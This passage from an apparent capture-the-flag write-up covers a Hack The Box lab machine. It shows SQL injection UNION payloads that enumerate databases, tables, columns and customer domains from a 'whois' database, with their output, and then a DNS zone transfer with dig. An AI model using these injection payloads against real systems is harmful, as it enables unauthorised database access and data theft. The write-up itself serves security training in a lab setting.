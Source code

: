 It returns the first one, which means it is possible to extract one field at a time.
Now that we know how the SQL Injection works, the data can be enumerated from the _infomation_schema_ table.

Getting the databases:
```
') UNION SELECT group_concat(SCHEMA_NAME),2 FROM information_schema.schemata-- -

(...)
information_schema,whois
```

Getting the tables of the database _whois_:
```
') UNION SELECT group_concat(TABLE_NAME),2 FROM information_schema.tables WHERE table_schema="whois"-- -

(...)
customers
```

Getting the columns of the table _customers_:
```
') UNION SELECT group_concat(column_name),2 FROM information_schema.columns WHERE table_name="customers"-- -

(...)
id,domain,data
```

Getting the contents of the column _domain_:
```
') UNION SELECT group_concat(domain),2 FROM whois.customers-- -

(...)
supersechosting.htb,justanotherblog.htb,pwnhats.htb,rentahacker.htb
```

This results in three more domains, where **DNS Zone Transfer** should be tested:
- justanotherblog.htb
- pwnhats.htb
- rentahacker.htb

## DNS Zone Transfers

Checking the DNS entries to see if **DNS Zone Transfers** are possible:
```
dig axfr justanotherblog.htb @10.10.10.155
```

- justanotherblog.htb
- mail1.justanotherblog.htb
- www.justanotherblog.htb

After putting them all into the _/etc/hosts_ file and browsing to all domains, the domain _www.justanotherblog.htb_ has a web page that says _"Under Construction"_.
